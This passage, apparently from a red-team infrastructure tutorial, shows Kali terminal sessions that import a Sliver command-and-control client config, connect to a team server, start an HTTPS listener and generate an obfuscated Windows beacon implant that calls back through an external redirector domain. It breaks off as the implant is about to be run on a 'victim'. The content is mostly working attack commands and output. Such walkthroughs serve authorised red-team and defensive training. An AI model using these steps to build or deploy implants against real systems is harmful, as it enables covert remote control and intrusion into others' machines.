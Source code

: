 ```
┌──(kali㉿kali)-[/opt/Streamlined/src/templates]
└─$ sliver import /tmp/moana.cfg 
2023/02/02 16:49:56 Saved new client config to: /home/kali/.sliver-client/configs/moana_10.69.69.5.cfg

┌──(kali㉿kali)-[/opt/Streamlined/src/templates]
└─$ sliver
? Select a server:  [Use arrows to move, enter to select, type to filter]
> moana@10.69.69.5 (e2a2dafd0e619287)

Connecting to 10.69.69.5:31337 ...

.------..------..------..------..------..------.                                                                                                                                      
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |                                                                                                                                      
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |                                                                                                                                      
| :\/: || (__) || :\/: || ()() || :\/: || ()() |                                                                                                                                      
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|                                                                                                                                      
`------'`------'`------'`------'`------'`------'                                                                                                                                      
                                                                                                                                                                                      
All hackers gain hexproof
[*] Server v1.5.33 - ce213edab44d33b2c232e0b8dc6c38f7fdabeee7
[*] Client v1.5.29 - 32e4ed63e98ada7ca4283e64d1fb0b7ee60322fc
[*] Welcome to the sliver shell, please type 'help' for options
```

The operator is now connected. This can be repeated for any other operators by generating them configurations and giving them the necessary Nebula files. 

Let's quickly demonstrate getting a beacon through the redirector. First, start a HTTPS and then generate a beacon. It must point to the domain name of the external redirector, as this will then get tunnelled through.

```
sliver > https
[*] Starting HTTPS :443 listener ...
[*] Successfully started job #1

sliver > generate beacon --http towerofterror.co.uk
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:02:55
[*] Implant saved to /opt/Streamlined/src/templates/DRY_VIRGINAL.exe
```

And executing it on our unassuming victim...
